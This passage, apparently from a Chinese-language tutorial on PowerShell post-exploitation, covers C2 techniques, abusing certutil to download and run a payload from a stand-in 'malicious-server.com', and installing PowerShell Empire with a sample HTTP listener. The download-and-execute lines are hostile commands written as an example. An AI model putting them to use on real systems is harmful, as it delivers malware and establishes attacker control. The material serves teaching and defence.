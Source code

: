在这个示例中，PowerShell 脚本编码数据并使用 DNS 请求将信息发送到 C2 服务器。

## 利用现有工具技术

PowerShell 允许攻击者利用合法的系统工具进行恶意用途，使得检测变得具有挑战性。以下示例说明了利用现有工具技术：

```
 # Use built-in tool (certutil) for downloading payload
certutil.exe -urlcache -split -f htt p://maliciou s-server.com/malicious-payload.exe
# Execute the downloaded payload
Start-Process -FilePath "C:\Windows\Temp\malicious-payload.exe"
```

在这个实例中，攻击者利用内置的 **certutil** Windows 工具下载一个有效载荷，展示了使用合法工具进行恶意活动。

PowerShell 组件为攻击者提供了一个多功能工具包，用于在后期利用过程中实施 C2。了解这些组件对于防御者有效地检测和缓解此类威胁至关重要。通过监控 PowerShell 活动、采用行为分析并实施强有力的安全措施，组织可以增强其抵御基于 PowerShell 的 C2 攻击的能力。

# 使用 Empire 进行 C2

PowerShell Empire 是一个开源的后期利用框架，因其多功能性而在渗透测试人员和红队成员中广受欢迎。本次全面的探索深入剖析了其复杂性，并演示了它如何在后期利用过程中实施（C2）。

## PowerShell Empire 简介

PowerShell Empire 是一个后期利用框架，旨在为安全专业人员模拟 **高级持续性威胁**（**APT**）场景。它利用 PowerShell 提供一个模块化和可扩展的平台，用于进攻性安全操作。

### 安装和设置

在深入探讨示例之前，让我们先了解一下 PowerShell Empire 的安装和设置：

```
 # Clone the Empire repository from GitHub
git clone http s://githu b.com/BC-SECURITY/Empire.git
# Change into the Empire directory
cd Empire
# Run the setup script
./setup/install.sh
```

安装完成后，启动 Empire 控制台：

```
 # Launch the Empire console
./empire
```

这将打开 Empire 控制台，操作员可以在其中与各种模块交互并配置 C2 的监听器。

### C2 的监听器

Empire 使用监听器来建立 C2 通道。让我们创建一个基本的 HTTP 监听器：

```
 # Within the Empire console
listeners
uselistener http
set Name http_listener
set Host 0.0.0.0
set Port 8080
execute
```
